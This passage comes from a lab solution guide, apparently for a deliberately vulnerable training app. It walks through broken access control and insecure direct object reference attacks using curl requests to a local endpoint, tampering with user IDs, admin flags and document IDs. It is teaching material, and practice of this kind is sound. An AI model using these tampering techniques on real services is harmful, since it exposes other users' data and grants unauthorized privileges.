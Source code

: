 ### Impact
- Unauthorized data access
- Privilege escalation
- Data modification without authorization
- Administrative access
- Information disclosure

### Lab Solution Steps

#### Step 1: Identify Protected Resources
**Objective:** Find resources that should require authorization

```bash
curl "http://localhost:5000/api/vuln/access-control?user_id=1"
```

**Expected Response:** User-specific data
**Explanation:** Test normal access to understand the application flow and identify user-specific resources.

#### Step 2: Horizontal Privilege Escalation
**Objective:** Access other users' data by changing parameters

```bash
curl "http://localhost:5000/api/vuln/access-control?user_id=2"
curl "http://localhost:5000/api/vuln/access-control?user_id=3"
curl "http://localhost:5000/api/vuln/access-control?user_id=100"
```

**Test different parameter names:**
```bash
curl "http://localhost:5000/api/vuln/access-control?id=2"
curl "http://localhost:5000/api/vuln/access-control?uid=2"
curl "http://localhost:5000/api/vuln/access-control?account=2"
```

**Explanation:** Change user identifiers to access other users' information without proper authorization.

#### Step 3: Vertical Privilege Escalation
**Objective:** Attempt to access administrative functions

```bash
curl "http://localhost:5000/api/vuln/access-control?user_id=1&admin=true"
curl "http://localhost:5000/api/vuln/access-control?user_id=1&role=admin"
curl "http://localhost:5000/api/vuln/access-control?user_id=1&is_admin=1"
curl "http://localhost:5000/api/vuln/access-control?user_id=1&privilege=administrator"
```

**Explanation:** Add administrative parameters to gain elevated privileges beyond normal user access.

#### Step 4: Direct Object Reference
**Objective:** Access objects directly by manipulating identifiers

```bash
curl "http://localhost:5000/api/vuln/access-control?document_id=1"
curl "http://localhost:5000/api/vuln/access-control?document_id=2"
curl "http://localhost:5000/api/vuln/access-control?file_id=123"
curl "http://localhost:5000/api/vuln/access-control?report_id=456"
```
